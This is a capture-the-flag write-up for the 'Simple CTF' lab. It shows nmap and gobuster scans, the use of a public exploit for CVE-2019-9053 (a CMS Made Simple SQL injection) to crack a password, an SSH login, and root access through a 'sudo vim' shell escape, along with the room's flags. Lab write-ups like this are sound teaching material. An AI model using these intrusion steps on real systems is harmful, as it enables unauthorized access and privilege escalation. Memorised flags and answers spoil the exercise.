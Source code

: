 # Simple CTF

+ **How many services are running under port 1000?**
  	```
  	wuvel@wuvel:~$ nmap -A -T5 -oN nmap/initial 10.10.33.186

  	Nmap scan report for 10.10.33.186
	Host is up (0.23s latency).
	Not shown: 997 filtered ports
	PORT     STATE SERVICE VERSION
	21/tcp   open  ftp     vsftpd 3.0.3
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
	|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
	|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  	```

  	There is **2** services.

+ **What is running on the higher port?**
	```
  	wuvel@wuvel:~$ nmap -A -T5 -oN nmap/initial 10.10.33.186

  	Nmap scan report for 10.10.33.186
	Host is up (0.23s latency).
	Not shown: 997 filtered ports
	PORT     STATE SERVICE VERSION
	21/tcp   open  ftp     vsftpd 3.0.3
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Apache2 Ubuntu Default Page: It works
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
	|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
	|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  	```

  	It is **ssh** services.

+ **What's the CVE you're using against the application?**
	```
	wuvel@wuvel:~$ gobuster dir -u 10.10.33.186 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50

	===============================================================
	Gobuster v3.0.1
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://10.10.33.186
	[+] Threads:        50
	[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2020/05/24 21:17:42 Starting gobuster
	===============================================================
	/simple (Status: 301) 

	#It's a CMS Made Simpe.
	```

	After we look up for CMS Made Simple Vuln, i found the CVE was **CVE-2019-9053**.

+ **To what kind of vulnerability is the application vulnerable?**
	```
	CMS Made Simple versions prior to 2.2.10 suffer from a remote SQL injection vulnerability.

	#from https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html
	```

	It's a **SQLi** Vuln.

+ **What's the password?**
	```
	#Download the CVE, Run with python2.

	[+] Salt for password found: 1dac0d92e9fa6bb2
	[+] Username found: mitch
	[+] Email found: admin@admin.com
	[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
	[+] Password cracked: secret
	```

	The password is **secret**.

+ **Where can you login with the details obtained?**
	```
	wuvel@wuvel:~$ ssh mitch@10.10.33.186 -p 2222

	The authenticity of host '[10.10.33.186]:2222 ([10.10.33.186]:2222)' can't be established.
	ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '[10.10.33.186]:2222' (ECDSA) to the list of known hosts.
	mitch@10.10.33.186's password: 
	Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage

	0 packages can be updated.
	0 updates are security updates.

	Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
	$
	```

	We can login thru **SSH**.

+ **What's the user flag?**
	```
	$ cat user.txt  

	G00d j0b, keep up!
	```

	It's **G00d j0b, keep up!**.

+ **Is there any other user in the home directory? What's its name?**
	```
	$ cd ..
	$ ls
	mitch  sunbath
	$ 
	```

	The other users was **sunbath**.

+ **What can you leverage to spawn a privileged shell?**
	```
	mitch@Machine:~$ sudo -l

	User mitch may run the following commands on Machine:
	    (root) NOPASSWD: /usr/bin/vim
	```

	We can privesc using **vim**.

+ **What's the root flag?**
	```
	mitch@Machine:~$ sudo vim -c ':!/bin/sh'

	# whoami
	root
	# cd /root
	# ls
	root.txt
	# cat root.txt  
	W3ll d0n3. You made it!
	```

	Root flag is **W3ll d0n3. You made it!**.
